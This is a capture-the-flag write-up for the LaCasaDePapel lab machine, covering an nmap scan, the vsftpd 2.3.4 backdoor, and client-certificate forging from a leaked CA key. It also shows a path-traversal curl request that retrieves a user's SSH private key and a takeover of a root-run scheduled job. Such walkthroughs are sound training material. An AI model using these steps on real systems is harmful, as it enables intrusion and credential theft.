# LaCasaDePapel
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.10.131             
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-19 16:13 BST
Nmap scan report for 10.10.10.131 (10.10.10.131)
Host is up (0.19s latency).
Not shown: 982 closed tcp ports (conn-refused)
PORT      STATE    SERVICE         VERSION
21/tcp    open     ftp             vsftpd 2.3.4
22/tcp    open     ssh             OpenSSH 7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 03e1c2c9791ca66b51348d7ac3c7c850 (RSA)
|   256 41e495a3390b25f9dadebe6adc59486d (ECDSA)
|_  256 300bc6662b8f5e4f2628750ef5b171e4 (ED25519)
80/tcp    open     http            Node.js (Express middleware)
|_http-title: La Casa De Papel
119/tcp   filtered nntp
443/tcp   open     ssl/http        Node.js Express framework
|_http-title: La Casa De Papel
| tls-nextprotoneg: 
|   http/1.1
|_  http/1.0
| ssl-cert: Subject: commonName=lacasadepapel.htb/organizationName=La Casa De Papel
| Not valid before: 2019-01-27T08:35:30
|_Not valid after:  2029-01-24T08:35:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
1065/tcp  filtered syscomlan
1084/tcp  filtered ansoft-lm-2
1112/tcp  filtered msql
1914/tcp  filtered elm-momentum
2034/tcp  filtered scoremgr
2119/tcp  filtered gsigatekeeper
4444/tcp  filtered krb524
7000/tcp  filtered afs3-fileserver
15660/tcp filtered bex-xr
19350/tcp filtered unknown
20031/tcp filtered unknown
34571/tcp filtered unknown
52869/tcp filtered unknown
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 80.58 seconds

```

- Web Server


## Foothold
- `vsftpd 2.3.4`


- Exploit



- Let's run it


- It's a [psy](https://psysh.org/)
  - If we ran `phpinfo()`, we see that there is a list of disabled functions




## User
- I tried opening users' home directories and their `.ssh` folder, but had no success



- Found `ca.key`



- We can use `openssl` to check TLS configurations

```
└─$ openssl s_client -connect 10.10.10.131:443
CONNECTED(00000003)
Can't use SSL_get_servername
depth=0 CN = lacasadepapel.htb, O = La Casa De Papel
verify error:num=18:self-signed certificate
verify return:1
depth=0 CN = lacasadepapel.htb, O = La Casa De Papel
verify return:1
---
Certificate chain
 0 s:CN = lacasadepapel.htb, O = La Casa De Papel
   i:CN = lacasadepapel.htb, O = La Casa De Papel
   a:PKEY: rsaEncryption, 2048 (bit); sigalg: RSA-SHA256
   v:NotBefore: Jan 27 08:35:30 2019 GMT; NotAfter: Jan 24 08:35:30 2029 GMT
---
Server certificate
-----BEGIN CERTIFICATE-----
MIIC6jCCAdICCQDISiE8M6B29jANBgkqhkiG9w0BAQsFADA3MRowGAYDVQQDDBFs
YWNhc2FkZXBhcGVsLmh0YjEZMBcGA1UECgwQTGEgQ2FzYSBEZSBQYXBlbDAeFw0x
OTAxMjcwODM1MzBaFw0yOTAxMjQwODM1MzBaMDcxGjAYBgNVBAMMEWxhY2FzYWRl
cGFwZWwuaHRiMRkwFwYDVQQKDBBMYSBDYXNhIERlIFBhcGVsMIIBIjANBgkqhkiG
9w0BAQEFAAOCAQ8AMIIBCgKCAQEAz3M6VN7OD5sHW+zCbIv/5vJpuaxJF3A5q2rV
QJNqU1sFsbnaPxRbFgAtc8hVeMNii2nCFO8PGGs9P9pvoy8e8DR9ksBQYyXqOZZ8
/rsdxwfjYVgv+a3UbJNO4e9Sd3b8GL+4XIzzSi3EZbl7dlsOhl4+KB4cM4hNhE5B
4K8UKe4wfKS/ekgyCRTRENVqqd3izZzz232yyzFvDGEOFJVzmhlHVypqsfS9rKUV
ESPHczaEQld3kupVrt/mBqwuKe99sluQzORqO1xMqbNgb55ZD66vQBSkN2PwBeiR
PBRNXfnWla3Gkabukpu9xR9o+l7ut13PXdQ/fPflLDwnu5wMZwIDAQABMA0GCSqG
SIb3DQEBCwUAA4IBAQCuo8yzORz4pby9tF1CK/4cZKDYcGT/wpa1v6lmD5CPuS+C
hXXBjK0gPRAPhpF95DO7ilyJbfIc2xIRh1cgX6L0ui/SyxaKHgmEE8ewQea/eKu6
vmgh3JkChYqvVwk7HRWaSaFzOiWMKUU8mB/7L95+mNU7DVVUYB9vaPSqxqfX6ywx
BoJEm7yf7QlJTH3FSzfew1pgMyPxx0cAb5ctjQTLbUj1rcE9PgcSki/j9WyJltkI
EqSngyuJEu3qYGoM0O5gtX13jszgJP+dA3vZ1wqFjKlWs2l89pb/hwRR2raqDwli
MgnURkjwvR1kalXCvx9cST6nCkxF2TxlmRpyNXy4
-----END CERTIFICATE-----
subject=CN = lacasadepapel.htb, O = La Casa De Papel
issuer=CN = lacasadepapel.htb, O = La Casa De Papel
---
Acceptable client certificate CA names
CN = lacasadepapel.htb, O = La Casa De Papel
Client Certificate Types: RSA sign, DSA sign, ECDSA sign
Requested Signature Algorithms: RSA+SHA512:DSA+SHA512:ECDSA+SHA512:RSA+SHA384:DSA+SHA384:ECDSA+SHA384:RSA+SHA256:DSA+SHA256:ECDSA+SHA256:RSA+SHA224:DSA+SHA224:ECDSA+SHA224:RSA+SHA1:DSA+SHA1:ECDSA+SHA1
Shared Requested Signature Algorithms: RSA+SHA512:DSA+SHA512:ECDSA+SHA512:RSA+SHA384:DSA+SHA384:ECDSA+SHA384:RSA+SHA256:DSA+SHA256:ECDSA+SHA256:RSA+SHA224:DSA+SHA224:ECDSA+SHA224:RSA+SHA1:DSA+SHA1:ECDSA+SHA1
Peer signing digest: SHA512
Peer signature type: RSA
Server Temp Key: ECDH, prime256v1, 256 bits
---
SSL handshake has read 1537 bytes and written 561 bytes
Verification error: self-signed certificate
---
New, TLSv1.2, Cipher is ECDHE-RSA-AES128-GCM-SHA256
Server public key is 2048 bit
Secure Renegotiation IS supported
Compression: NONE
Expansion: NONE
No ALPN negotiated
SSL-Session:
    Protocol  : TLSv1.2
    Cipher    : ECDHE-RSA-AES128-GCM-SHA256
    Session-ID: CB1545984AC48ABA22DD66B3232679DE2FD4EE27366D7CA1F7C0CD415F2721D7
    Session-ID-ctx: 
    Master-Key: C377D9A9FF84789464AC768D8EA03AA3EB6AB15CA746294C683E050C4AB21C3F679953885BF25CEB256E03BC59B97EE4
    PSK identity: None
    PSK identity hint: None
    SRP username: None
    TLS session ticket lifetime hint: 300 (seconds)
    TLS session ticket:
    0000 - fa 80 99 68 e5 6a 75 04-a9 f0 4d bc 3f 88 98 bf   ...h.ju...M.?...
    0010 - 78 59 49 13 72 6a c4 d7-39 ad b3 0c da bc 5c c2   xYI.rj..9.....\.
    0020 - ce f9 39 99 eb 05 0d dc-cf 79 87 60 6b 98 98 67   ..9......y.`k..g
    0030 - 7e 6d b3 ba 60 8a af 32-cc 6b cd 69 a1 be 4c 42   ~m..`..2.k.i..LB
    0040 - 95 1f a6 2b 31 03 84 6c-7b 60 71 a6 c9 2d 17 e0   ...+1..l{`q..-..
    0050 - 67 21 af 52 27 47 3d 07-f0 d8 67 b1 76 c5 86 86   g!.R'G=...g.v...
    0060 - 9f dd 35 aa 49 5b c2 e3-6e 42 20 33 a4 04 1f 4e   ..5.I[..nB 3...N
    0070 - cf 0a 29 3c 26 71 8d bd-42 f2 e4 d7 d1 83 54 2f   ..)<&q..B.....T/
    0080 - a0 3a fa 1a ef 46 9b 38-38 69 d5 5d 60 0f 9f fa   .:...F.88i.]`...
    0090 - 6e 1f a0 57 14 97 eb 3b-b7 42 e4 d1 42 f0 97 77   n..W...;.B..B..w
    00a0 - 75 09 22 d0 46 3a 1f 17-b4 86 63 c5 03 21 44 37   u.".F:....c..!D7
    00b0 - 98 de c1 f0 f8 7d fb b6-62 66 b5 d5 08 16 aa 40   .....}..bf.....@

    Start Time: 1687192547
    Timeout   : 7200 (sec)
    Verify return code: 18 (self-signed certificate)
    Extended master secret: no
---
```
- Let's generate `pkcs12` certificate using `ca`'s key and certificate



- Import it to `firefox`



- Refresh the page and turn off `Burp Suite`


- Press `Ok`


- When opening `SEASON-1` it redirects to `https://10.10.10.131/?path=SEASON-1`



- Download any file




- Let's grab `ssh` keys from all users, since we have `lfi`
  - I only was able to download `berlin`'s `id_rsa`





- Let's use to connect as any user
  - Found a nice way to try each user from `0xdf`: `for user in berlin dali nairobi oslo professor; do ssh -oBatchMode=yes -i ~/id_rsa_lacasadepapel_berlin $user@10.10.10.131; done`
  - I had an issue with format of the key, so I downloaded it using `curl`: `curl -k https://10.10.10.131/file/Li4vLnNzaC9pZF9yc2E=`
  - Don't forget to set permissions to `600`



## Root
- We have a `memcached.ini`
  - We see there is a process running as `nobody` 




- Running `pspy` will tell you that there is a automated job running every few minutes
  - So we can try changing the command, but we can't since it's owned by `root`
  - But we can delete it and create a new one, since the directory is owned by `professor`



- Let's delete and create a file


- And we have our `root`


